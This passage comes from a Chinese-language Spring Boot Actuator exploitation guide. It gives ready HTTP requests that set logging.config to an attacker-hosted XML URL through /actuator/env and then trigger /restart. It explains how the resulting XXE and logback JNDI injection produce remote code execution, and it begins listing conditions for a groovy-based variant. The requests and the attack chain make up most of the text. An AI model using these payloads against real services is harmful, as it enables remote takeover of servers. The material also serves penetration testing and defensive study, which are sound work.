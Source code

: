 spring 2.x

```http
POST /actuator/env HTTP/1.1
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}
```

##### 步骤四：重启应用

spring 1.x

```http
POST /restart HTTP/1.1
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```http
POST /actuator/restart HTTP/1.1
Content-Type: application/json

```

#### 漏洞原理

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求 URL 地址获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞

#### 漏洞分析

​ [spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

​ <https://landgrey.me/blog/21/>

#### 漏洞环境

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```url
http://127.0.0.1:9098/actuator/env
```

### 0x0A：restart logging.config groovy RCE

#### 利用条件

- 可以 POST 请求目标网站的 `/env` 接口设置属性
- 可以 POST 请求目标网站的 `/restart` 接口重启应用
- ⚠️ 目标可以请求攻击者的 HTTP 服务器（请求可出外网），否则 restart 会导致程序异常退出
- ⚠️ HTTP 服务器如果返回含有畸形 groovy 语法内容的文件，会导致程序异常退出
- ⚠️ 环境中需要存在 groovy 依赖，否则会导致程序异常退出
